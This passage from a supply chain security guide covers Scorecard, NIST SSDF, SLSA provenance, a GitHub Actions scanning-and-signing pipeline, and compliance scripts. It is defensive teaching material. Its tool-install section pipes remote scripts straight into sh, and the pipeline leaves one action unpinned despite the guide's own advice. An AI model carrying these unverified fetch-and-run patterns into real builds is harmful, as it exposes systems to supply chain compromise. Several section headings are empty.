| Secure Development Practices | June 2022 | Software vendors must self-certify compliance with NIST SSDF |
| Vulnerability Disclosure | September 2022 | Establish coordinated vulnerability disclosure program |
| Endpoint Detection and Response | January 2022 | Deploy EDR solutions |
| Zero Trust Architecture | September 2024 | Federal agencies migrate to zero trust |

## 6.3 OpenSSF Scorecard

```bash
# OpenSSF Scorecard - Evaluate Open Source Project Security

# Installation
go install github.com/ossf/scorecard/v4/cmd/scorecard@latest

# Evaluate project (requires GitHub Token)
export GITHUB_TOKEN=ghp_your_token
scorecard --repo github.com/kubernetes/kubernetes

# Output example:
# Starting [Binary-Artifacts]
# Starting [CI-Tests]
# Starting [CII-Best-Practices]
# Starting [Code-Review]
# Starting [Dangerous-Workflow]
# Starting [Dependency-Update-Tool]
# Starting [Fuzzing]
# Starting [License]
# Starting [Maintained]
# Starting [Pinned-Dependencies]
# Starting [Packaging]
# Starting [SAST]
# Starting [Security-Policy]
# Starting [Signed-Releases]
# Starting [Token-Permissions]
# Starting [Vulnerabilities]
# 
# RESULTS
# -------
# Aggregate score: 8.3 / 10
# Check scores:
# |-------------------------------|----|
# | Name                          |Score|
# |-------------------------------|----|
# | Binary-Artifacts              | 10 |
# | CI-Tests                      | 10 |
# | CII-Best-Practices            |  5 |
# | Code-Review                   | 10 |
# | Dangerous-Workflow            | 10 |
# | Dependency-Update-Tool        | 10 |
# | Fuzzing                       |  8 |
# | License                       | 10 |
# | Maintained                    | 10 |
# | Pinned-Dependencies           |  7 |
# | Packaging                     | 10 |
# | SAST                          |  8 |
# | Security-Policy               | 10 |
# | Signed-Releases               |  6 |
# | Token-Permissions             | 10 |
# | Vulnerabilities               |  9 |
# |-------------------------------|----|

# Generate JSON report
scorecard --repo github.com/myorg/myproject --format json > scorecard-results.json

# Integrate Scorecard in CI
scorecard --repo github.com/myorg/myproject \
  --format sarif \
  --output results.sarif
```

---

<!-- chunk: 7. NIST SSDF Framework Explained -->## 7. NIST SSDF Framework Explained

## 7.1 NIST SP 800-218 Overview

The NIST Secure Software Development Framework (SSDF) provides a comprehensive set of secure software development best practices.

```
SSDF Four Practice Groups:

┌─────────────────────────────────────────────────────────┐
│  PO: Prepare the Organization                           │
│  ─ Define security requirements and processes           │
│  ─ Train developers                                      │
│  ─ Implement tools and processes                        │
├─────────────────────────────────────────────────────────┤
│  PS: Protect the Software                              │
│  ─ Protect code repositories and development environment│
│  ─ Manage third-party software                          │
│  ─ Reuse secure software                               │
├─────────────────────────────────────────────────────────┤
│  PW: Produce Well-Secured Software                     │
│  ─ Secure design                                        │
│  ─ Code review                                          │
│  ─ Security testing                                     │
├─────────────────────────────────────────────────────────┤
│  RV: Respond to Vulnerabilities                        │
│  ─ Identify and confirm vulnerabilities                 │
│  ─ Assess, prioritize, and fix                         │
│  ─ Root cause analysis                                  │
└─────────────────────────────────────────────────────────┘
```

## 7.2 SSDF Practices Explained

## PO (Prepare the Organization) Practices

```yaml
# SSDF PO Practices Checklist

PO.1 Define Security Requirements:
  PO.1.1:
    Task: "Identify and document software security requirements"
    Outputs:
      - Security requirements document
      - Threat model
      - Compliance matrix
    Examples:
      - Data encryption requirements (in transit and at rest)
      - Authentication and authorization requirements
      - Audit logging requirements

  PO.1.2:
    Task: "Identify and document all third-party security requirements"
    Outputs:
      - Third-party security terms
      - Vendor security assessment
    Examples:
      - Cloud service provider compliance certification requirements
      - Open source component license requirements

PO.2 Implement Secure Development Practices:
  PO.2.1:
    Task: "Provide security training to developers"
    Outputs:
      - Training materials
      - Training completion records
    Frequency: "At least annually, additional training on technical updates"

  PO.2.2:
    Task: "Ensure developers have skills to complete security tasks"
    Checks:
      - OWASP Top 10 knowledge
      - Secure coding standards
      - Tool usage training (SAST, DAST, SCA)

PO.3 Implement Secure Development Tools:
  PO.3.1:
    Task: "Select and maintain tools for secure development"
    Tool Categories:
      SAST: [SonarQube, Semgrep, CodeQL]
      DAST: [OWASP ZAP, Burp Suite]
      SCA: [Snyk, Dependabot, OWASP Dependency-Check]
      Secret Scanning: [GitGuardian, truffleHog, Gitleaks]
      Container Scanning: [Trivy, Grype, Clair]
```

## PS (Protect the Software) Practices

```bash
# PS.1 Protect Code Repository Access

# 1. Enforce MFA Authentication
# GitHub organization enforce MFA
gh api -X PATCH /orgs/{org} \
  -f two_factor_requirement_enabled=true

# 2. Least Privilege Access
# Use GitHub Fine-grained tokens
# Grant only necessary repository permissions

# 3. Branch Protection
gh api -X PUT repos/{owner}/{repo}/branches/main/protection \
  --input branch-protection.json

# PS.2 Protect Development Environment
# Use temporary, single-use build environments
cat <<EOF > build-environment.yaml
# Kubernetes Job for isolated build
apiVersion: batch/v1
kind: Job
metadata:
  name: secure-build-$(date +%s)
spec:
  template:
    spec:
      serviceAccountName: build-sa  # Least privilege
      securityContext:
        runAsNonRoot: true
        seccompProfile:
          type: RuntimeDefault
      containers:
        - name: builder
          image: golang:1.21.6-alpine@sha256:abcd1234...  # Fixed digest
          securityContext:
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
            capabilities:
              drop: [ALL]
      restartPolicy: Never
      automountServiceAccountToken: false
EOF
```

## 7.3 SSDF and EO 14028 Mapping

```
SSDF Practice → EO 14028 Requirement Mapping:

EO Requirement: Multi-Factor Authentication
  ↔ SSDF PO.1.3: Identify systems and data requiring protection

EO Requirement: Encrypt Data in Transit and at Rest
  ↔ SSDF PW.2.1: Design software to meet security requirements

EO Requirement: Endpoint Detection and Response
  ↔ SSDF PS.3.1: Monitor development environment for threats

EO Requirement: Logging
  ↔ SSDF PO.3.2: Maintain secure logging for security tools and data

EO Requirement: SBOM
  ↔ SSDF PS.3.2: Archive and protect each software version and dependencies

EO Requirement: Secure Development Practices
  ↔ SSDF PW.* All practices
```

---

<!-- chunk: 8. SLSA Framework Overview -->## 8. SLSA Framework Overview

## 8.1 SLSA Introduction

SLSA (Supply chain Levels for Software Artifacts) is a supply chain security framework proposed by Google and maintained by OpenSSF.

```
SLSA Core Concepts:

Supply Chain = Source + Build + Dependencies
              (Source)  (Build)  (Dependencies)

SLSA Objectives:
1. Prevent unauthorized changes to source code
2. Prevent tampering with build process
3. Prevent artifact replacement
4. Improve visibility and auditability of security
```

## 8.2 SLSA Levels Overview



## 8.3 SLSA Provenance

```json
// SLSA v1.0 Provenance Format Example
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "predicateType": "https://slsa.dev/provenance/v1",
  "subject": [
    {
      "name": "pkg:docker/myorg/myapp@v1.2.3",
      "digest": {
        "sha256": "9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08"
      }
    }
  ],
  "predicate": {
    "buildDefinition": {
      "buildType": "https://github.com/slsa-framework/slsa-github-generator/container@v1",
      "externalParameters": {
        "workflow": {
          "ref": "refs/tags/v1.2.3",
          "repository": "https://github.com/myorg/myapp",
          "path": ".github/workflows/release.yml"
        }
      },
      "resolvedDependencies": [
        {
          "uri": "git+https://github.com/myorg/myapp@refs/tags/v1.2.3",
          "digest": {
            "gitCommit": "abc123def456..."
          }
        }
      ]
    },
    "runDetails": {
      "builder": {
        "id": "https://github.com/actions/runner@v2.311.0"
      },
      "metadata": {
        "invocationID": "https://github.com/myorg/myapp/actions/runs/12345678/attempts/1",
        "startedOn": "2024-01-15T10:00:00Z",
        "finishedOn": "2024-01-15T10:05:30Z"
      }
    }
  }
}
```

---

<!-- chunk: 9. Cloud-Native Supply Chain Security Ecosystem -->## 9. Cloud-Native Supply Chain Security Ecosystem

## 9.1 CNCF Supply Chain Security Projects

```
CNCF Supply Chain Security Projects Overview:

Signing and Verification:
├── Sigstore (cosign, fulcio, rekor)
├── The Update Framework (TUF)
└── Notary (Harbor image signing)

SBOM Tools:
├── Syft (Anchore)
├── Trivy (Aqua Security)
└── Tern (VMware)

Vulnerability Scanning:
├── Grype (Anchore)
├── Trivy (Aqua Security)
├── Clair (Quay)
└── Snyk

Provenance and Attestation:
├── in-toto
├── SLSA GitHub Generator
└── Tekton Chains

Policy Enforcement:
├── OPA/Gatekeeper
├── Kyverno
└── Connaisseur

Key Management:
├── Vault (HashiCorp)
├── cert-manager
└── External Secrets Operator
```

## 9.2 Complete Supply Chain Security Pipeline

```yaml
# Complete GitHub Actions Supply Chain Security Pipeline
name: Secure Supply Chain Pipeline
on:
  push:
    tags:
      - 'v*'

permissions:
  contents: read
  packages: write
  id-token: write  # For OIDC keyless signing
  security-events: write

env:
  REGISTRY: ghcr.io
  IMAGE_NAME: ${{ github.repository }}

jobs:
  # Stage 1: Code Security Analysis
  code-security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: CodeQL Analysis
        uses: github/codeql-action/analyze@cdcdbb579706841c47f7063dda365e292e5cad7a
        with:
          languages: go,javascript
          
      - name: Secret scanning
        uses: trufflesecurity/trufflehog@main
        with:
          path: ./
          base: ${{ github.event.repository.default_branch }}
          head: HEAD

  # Stage 2: Dependency Vulnerability Scanning
  dependency-scan:
    runs-on: ubuntu-latest
    needs: code-security
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: Run Trivy vulnerability scanner in repo mode
        uses: aquasecurity/trivy-action@2b6a709cf9c4025c5438138008beaddbb02086f0
        with:
          scan-type: 'fs'
          scan-ref: '.'
          format: 'sarif'
          output: 'trivy-results.sarif'
          severity: 'CRITICAL,HIGH'
          
      - name: Upload Trivy scan results
        uses: github/codeql-action/upload-sarif@cdcdbb579706841c47f7063dda365e292e5cad7a
        with:
          sarif_file: 'trivy-results.sarif'

  # Stage 3: Build and SBOM Generation
  build:
    runs-on: ubuntu-latest
    needs: dependency-scan
    outputs:
      image: ${{ steps.image.outputs.image }}
      digest: ${{ steps.build.outputs.digest }}
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
      
      - name: Setup Docker Buildx
        uses: docker/setup-buildx-action@f95db51fddba0c2d1ec667646a06c2ce06100226
        
      - name: Login to Registry
        uses: docker/login-action@343f7c4344506bcbf9b4de18042ae17996df046d
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          
      - name: Extract metadata
        id: meta
        uses: docker/metadata-action@96383f45573cb7f253c731d3b3ab81c87ef81934
        with:
          images: ${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}
          
      - name: Build and push
        id: build
        uses: docker/build-push-action@0565240e2d4ab88bba5387d719585280857ece09
        with:
          context: .
          push: true
          tags: ${{ steps.meta.outputs.tags }}
          labels: ${{ steps.meta.outputs.labels }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
          sbom: true  # Generate SBOM
          provenance: mode=max  # Generate provenance

      - name: Set image output
        id: image
        run: echo "image=${{ env.REGISTRY }}/${{ env.IMAGE_NAME }}@${{ steps.build.outputs.digest }}" >> $GITHUB_OUTPUT

  # Stage 4: Image Scanning
  image-scan:
    runs-on: ubuntu-latest
    needs: build
    steps:
      - name: Run Trivy on built image
        uses: aquasecurity/trivy-action@2b6a709cf9c4025c5438138008beaddbb02086f0
        with:
          image-ref: ${{ needs.build.outputs.image }}
          format: 'sarif'
          output: 'trivy-image-results.sarif'
          severity: 'CRITICAL'
          exit-code: '1'

  # Stage 5: Signing and Provenance
  sign-and-attest:
    runs-on: ubuntu-latest
    needs: [build, image-scan]
    steps:
      - name: Install Cosign
        uses: sigstore/cosign-installer@9614fae9e5c5eddabb09f90a270fcb487c9f7149
        
      - name: Sign the image
        run: |
          cosign sign \
            --yes \
            ${{ needs.build.outputs.image }}
            
      - name: Generate SLSA provenance
        uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.10.0
        with:
          image: ${{ needs.build.outputs.image }}
          digest: ${{ needs.build.outputs.digest }}
          registry-username: ${{ github.actor }}
          registry-password: ${{ secrets.GITHUB_TOKEN }}
```

---

<!-- chunk: 10. Implementation Paths and Best Practices -->## 10. Implementation Paths and Best Practices

## 10.1 Supply Chain Security Maturity Path



## 10.2 Critical Security Control Checklist

```bash
#!/bin/bash
# supply-chain-health-check.sh
# Supply Chain Security Health Check Script

echo "=== Supply Chain Security Health Check ==="

# 1. Check Git Commit Signing Configuration
check_git_signing() {
  echo ""
  echo "--- Checking Git Signing Configuration ---"
  
  if git config --global commit.gpgsign | grep -q "true"; then
    echo "✓ GPG Commit Signing Enabled"
  else
    echo "✗ GPG Commit Signing Not Enabled"
    echo "  Fix: git config --global commit.gpgsign true"
  fi
}

# 2. Check Dependency Lock Files
check_lock_files() {
  echo ""
  echo "--- Checking Dependency Lock Files ---"
  
  declare -A lock_files=(
    ["package.json"]="package-lock.json"
    ["Pipfile"]="Pipfile.lock"
    ["pyproject.toml"]="poetry.lock"
    ["go.mod"]="go.sum"
    ["Cargo.toml"]="Cargo.lock"
    ["Gemfile"]="Gemfile.lock"
  )
  
  for manifest in "${!lock_files[@]}"; do
    lockfile="${lock_files[$manifest]}"
    if [ -f "$manifest" ]; then
      if [ -f "$lockfile" ]; then
        echo "✓ $lockfile Exists"
      else
        echo "✗ Found $manifest but Missing $lockfile"
      fi
    fi
  done
}

# 3. Check Security Policy File
check_security_policy() {
  echo ""
  echo "--- Checking Security Policy File ---"
  
  if [ -f "SECURITY.md" ] || [ -f ".github/SECURITY.md" ]; then
    echo "✓ SECURITY.md Exists"
  else
    echo "✗ Missing SECURITY.md"
  fi
}

# 4. Check CI/CD Workflow Security
check_ci_security() {
  echo ""
  echo "--- Checking CI/CD Security Configuration ---"
  
  if [ -d ".github/workflows" ]; then
    # Check if Actions are pinned to SHA
    unpinned=$(grep -r "uses:" .github/workflows/ | \
      grep -v "@[a-f0-9]\{40\}" | \
      grep -v "^#" | wc -l)
    
    if [ "$unpinned" -eq 0 ]; then
      echo "✓ All Actions Pinned to Commit SHA"
    else
      echo "✗ Found $unpinned Unpinned Actions"
    fi
  fi
}

# Execute All Checks
check_git_signing
check_lock_files
check_security_policy
check_ci_security

echo ""
echo "=== Health Check Complete ==="
```

## 10.3 Incident Response Plan

```yaml
# Supply Chain Security Incident Response Plan
incident-response:
  
  Detection Phase:
    Tools:
      - Dependency vulnerability scanner alerts
      - OSS-Fuzz fuzzing test reports
      - CVE database subscriptions
      - Threat intelligence platforms
    
    Initial Assessment Metrics:
      - CVSS score >= 7.0
      - Affected dependency in production
      - Publicly available exploit code
      - Supply chain poisoning indicators
  
  Containment Phase (0-4 hours):
    Immediate Actions:
      - Isolate affected systems
      - Block network access to malicious dependencies
      - Preserve evidence (memory dumps, logs)
      - Activate incident response team
    
    Communication:
      - Notify CISO and security team
      - Evaluate if regulatory notification required
      - Prepare internal briefing
  
  Eradication Phase (4-24 hours):
    Technical Measures:
      - Identify all affected systems and versions
      - Prepare fix version or patch
      - Test fix in non-production environment
      - Deploy fix to production
    
    Supply Chain Measures:
      - Update affected dependencies
      - Regenerate affected SBOM
      - Rescan all images
      - Resign all artifacts
  
  Recovery Phase (24-72 hours):
    Verification Measures:
      - Confirm vulnerability is fixed
      - Restore affected services
      - Monitor for anomalous activity
      - Complete post-incident analysis
  
  Improvement Phase:
    Lessons Learned:
      - Root cause analysis
      - Process improvement recommendations
      - Tool and automation improvements
      - Training and awareness enhancement
```

---

<!-- chunk: 11. Compliance and Regulatory Requirements -->## 11. Compliance and Regulatory Requirements

## 11.1 Compliance Framework Mapping

| Compliance Framework | Supply Chain Related Requirements | Key Controls |
|------------------|--------------------------------|--------------|
| SOC 2 Type II | CC8.1 Change Management | Code review, change control process |
| ISO 27001 | A.14.2 System Development Security | Secure development lifecycle |
| PCI DSS v4 | Req 6 Secure Software Development | Vulnerability management, code review |
| NIST CSF 2.0 | GV.SC Supply Chain Risk Management | Vendor assessment, SBOM |
| FedRAMP | Multiple control families | Configuration management, change control |
| CMMC 2.0 | SI.2 Malware Prevention | Artifact integrity verification |

## 11.2 SBOM Regulatory Requirements

```
SBOM Regulatory Requirements Timeline:

2021-05 ─ US EO 14028: Federal software vendors must provide SBOM
2022-07 ─ FDA Medical Device SBOM Guidance Draft
2023-03 ─ NTIA Minimum SBOM Elements Standard Established
2023-09 ─ FDA Cybersecurity Regulation: Medical Device SBOM Mandatory
2024-01 ─ EU CRA (Cyber Resilience Act) Draft Includes SBOM Requirements
2024-06 ─ DoD CMMC 2.0 Official Enforcement, Includes Supply Chain Requirements
```

## 11.3 Audit and Compliance Documentation

```bash
# Generate Compliance Evidence Package
#!/bin/bash
# compliance-evidence.sh

EVIDENCE_DIR="./compliance-evidence/$(date +%Y-%m-%d)"
mkdir -p "$EVIDENCE_DIR"

# 1. Generate SBOM
echo "Generating SBOM..."
syft . -o spdx-json > "$EVIDENCE_DIR/sbom.spdx.json"
syft . -o cyclonedx-json > "$EVIDENCE_DIR/sbom.cyclonedx.json"

# 2. Vulnerability Scan Report
echo "Running vulnerability scan..."
grype sbom:"$EVIDENCE_DIR/sbom.spdx.json" \
  -o json > "$EVIDENCE_DIR/vulnerability-report.json"

# 3. License Compliance Report
echo "Checking licenses..."
syft . -o json | jq '.artifacts[].licenses' \
  > "$EVIDENCE_DIR/license-report.json"

# 4. Code Signing Status
echo "Checking code signing..."
git log --show-signature --format="%H %G? %GS" \
  > "$EVIDENCE_DIR/commit-signatures.txt"

# 5. Dependency Lock Status
echo "Checking dependency locks..."
for lockfile in package-lock.json poetry.lock go.sum Cargo.lock; do
  if [ -f "$lockfile" ]; then
    sha256sum "$lockfile" >> "$EVIDENCE_DIR/lock-files-hashes.txt"
  fi
done

# 6. CI/CD Pipeline Security Configuration
echo "Documenting CI/CD configuration..."
tar -czf "$EVIDENCE_DIR/workflows.tar.gz" .github/workflows/

echo "Evidence package created at: $EVIDENCE_DIR"
ls -lh "$EVIDENCE_DIR"
```

---

<!-- chunk: 12. Future Trends and Challenges -->## 12. Future Trends and Challenges

## 12.1 Emerging Threats



## 12.2 Technical Development Directions

**1. Deterministic Builds (Reproducible Builds)**

```bash
# Reproducible Build Verification
# Goal: Same input → Same output, anyone can verify

# Go Example: Implement Reproducible Build
CGO_ENABLED=0 \
GOOS=linux \
GOARCH=amd64 \
GOFLAGS=-trimpath \
go build -ldflags="-s -w" -o myapp ./cmd/main.go

# Verification: Compare hashes of two builds
sha256sum build1/myapp build2/myapp
# If both hashes are identical, build is reproducible
```

**2. Zero Knowledge Proofs (ZKP) in Supply Chain Applications**

```
Future Application Scenarios:

Builder Proof:
"I built this artifact using SLSA L3 compliant process,
without exposing specific build environment details"

Reviewer Verification:
"This code change passed all security checks,
without exposing specific reviewer identities"

Compliance Proof:
"This software complies with all PCI DSS requirements,
without exposing specific implementation details"
```

**3. AI-Assisted Supply Chain Security**

```yaml
AI-Enhanced Supply Chain Security Capabilities:

Anomaly Detection:
  - Identify unusual dependency version update patterns
  - Analyze commit behavior patterns (time, size, scope)
  - Detect build output anomalies

Vulnerability Prediction:
  - Predict vulnerabilities based on code semantics
  - Predict new vulnerability impact on dependency graph
  - Auto-generate remediation recommendations

Threat Intelligence:
  - Auto-correlate threat indicators
  - Learn supply chain attack patterns
  - Early warning for zero-day vulnerabilities
```

## 12.3 Post-Quantum Cryptography Migration

```bash
# Prepare for Post-Quantum Cryptography Migration

# Current usage scenarios (need migration):
# - Sigstore signatures
# - TLS certificates
# - SSH keys
# - Git commit signatures

# NIST Post-Quantum Cryptography Standards (officially released 2024)
# ML-KEM (CRYSTALS-Kyber) - Key Encapsulation
# ML-DSA (CRYSTALS-Dilithium) - Digital Signature
# SLH-DSA (SPHINCS+) - Digital Signature (hash-based)

# Migration Strategy: Hybrid Signatures (transition period)
# Simultaneously use traditional and post-quantum algorithm signatures
# Cosign has begun researching post-quantum support
```

---

<!-- chunk: References and Further Reading -->## References and Further Reading

## Official Documentation

| Resource | URL | Description |
|----------|-----|-------------|
| NIST SSDF | https://csrc.nist.gov/publications/detail/sp/800-218/final | SP 800-218 Complete Framework |
| SLSA Official Site | https://slsa.dev | SLSA Framework Specification |
| Sigstore | https://sigstore.dev | Keyless Signing Infrastructure |
| OpenSSF | https://openssf.org | Open Source Security Foundation |
| CISA | https://www.cisa.gov/supply-chain | Supply Chain Security Guidance |
| in-toto | https://in-toto.io | Supply Chain Integrity Framework |

## Tool Resources

```bash
# Supply Chain Security Tools Installation Summary

# Syft - SBOM Generation
curl -sSfL https://raw.githubusercontent.com/anchore/syft/main/install.sh | sh -s -- -b /usr/local/bin

# Grype - Vulnerability Scanning
curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b /usr/local/bin

# Cosign - Artifact Signing
go install github.com/sigstore/cosign/v2/cmd/cosign@latest

# Scorecard - Project Security Assessment
go install github.com/ossf/scorecard/v4/cmd/scorecard@latest

# Trivy - Comprehensive Vulnerability Scanning
brew install aquasecurity/trivy/trivy

# Slsa-verifier - SLSA Provenance Verification
go install github.com/slsa-framework/slsa-verifier/v2/cli/slsa-verifier@latest
```

---

*This document is continuously updated to reflect the latest developments in supply chain security.*
*Last updated: 2024*
*Version: 1.0*

---

<!-- chunk: Obsidian Related Documentation -->## Obsidian Related Documentation

- domain-05-security-compliance KUDIG Database — Global MOC
- [[domain-05-security-compliance/README.md|[[Domain 39: Supply Chain Security|Domain 39: Supply Chain Security]]]]
- [[domain-05-security-compliance/00-open-source-projects-index.md|Domain-39 Supply Chain Security — Open Source Projects Index]]
- [[domain-05-security-compliance/05-supply-chain/02-supply-chain-maturity-model.md|02 supply chain maturity model]]
- [[domain-05-security-compliance/05-supply-chain/03-sbom-generation-management.md|03 sbom generation management]]
- SBOM Vulnerability Analysis and Governance
- SLSA Levels and Implementation
- GitHub Actions SLSA Build
- Sigstore and Cosign Signing
- Fulcio and Rekor Transparency Logs
- Policy Controller Image Verification
- Compliance Automation and Audit

## See Also

- 10-compliance-automation-audit
- 99-slsa-supply-chain-security-guide
- 02-supply-chain-maturity-model
- 03-sbom-generation-management

- [[domain-05-security-compliance/README.md|Return to Table of Contents]]

<!-- risk-assessed -->
